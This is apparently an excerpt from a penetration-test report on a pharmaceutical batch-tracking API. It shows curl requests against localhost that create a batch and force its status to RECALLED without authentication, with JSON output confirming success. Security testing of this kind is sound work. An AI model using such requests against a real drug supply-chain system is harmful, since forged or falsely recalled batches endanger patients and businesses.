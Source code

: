 ## ADMINISTRATIVE FUNCTION TESTING

### Test 1: Unauthorized Batch Creation
**Objective**: Create pharmaceutical batch without manufacturer authority

#### Attack Vector: Direct API Exploitation
```bash
# SUCCESSFUL EXPLOITATION - No authentication required
curl -X POST "http://localhost:5000/api/batches" \
-H "Content-Type: application/json" \
-d '{
  "batchId": "ADMIN_PRIVILEGE_TEST",
  "productName": "High Privilege Test",
  "manufacturer": "UNAUTHORIZED_ADMIN", 
  "manufacturerLicenseId": "ADMIN-001",
  "lotNumber": "PRIV-001",
  "quantity": 999999,
  "unit": "units",
  "manufacturingDate": "2025-01-21",
  "expiryDate": "2026-01-21",
  "location": "Admin Override Location",
  "temperatureSensitive": "false"
}'
```

#### Result: ✅ **SUCCESSFUL EXPLOITATION**
```json
{
  "id": 11,
  "batchId": "ADMIN_PRIVILEGE_TEST",
  "productName": "High Privilege Test", 
  "manufacturer": "UNAUTHORIZED_ADMIN",
  "manufacturerLicenseId": "ADMIN-001",
  "lotNumber": "PRIV-001",
  "quantity": 999999,
  "status": "MANUFACTURED",
  "location": "Admin Override Location",
  "createdAt": "2025-08-21T18:26:26.054Z"
}
```

**🔴 VULNERABILITY CONFIRMED**: Unauthorized pharmaceutical batch creation successful

---

### Test 2: Administrative Status Override
**Objective**: Change batch status without proper authorization

#### Attack Vector: Status Manipulation
```bash
# SUCCESSFUL EXPLOITATION - Status changed to RECALLED without authority
curl -X PUT "http://localhost:5000/api/batches/ADMIN_PRIVILEGE_TEST/status" \
-H "Content-Type: application/json" \
-d '{"status": "RECALLED"}'
```
